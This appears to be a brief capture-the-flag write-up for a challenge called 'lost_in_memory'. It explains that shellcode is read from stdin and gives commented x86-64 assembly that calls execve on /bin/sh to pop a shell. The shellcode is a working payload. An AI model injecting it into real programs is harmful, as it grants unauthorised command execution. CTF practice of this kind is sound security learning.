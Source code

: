 # lost_in_memory
The goal is to pop a shell to read the flag.
 
## Context
- The shellcode is read from `stdin`

## Approach
A simple shellcode is needed to invoke a shell using the execve("/bin/sh", NULL, NULL):
```{asm}
    nop
    nop
    nop
    nop
    xor rax, rax			; clear rax
    mov rax, 0x3b			; 0x3b is the syscall number for execve 
    xor rdx, rdx			; clear rdx
    xor rsi, rsi			; clear rsi
    mov rdi, 0x0068732f6e69622f		; move "/bin/sh" into rdi (reversed)
    push rdi				; push "/bin/sh" into the stack
    mov rdi, rsp			; move rsp into rdi (to get a pointer to "/bin/sh")
    syscall				; execute the syscall
```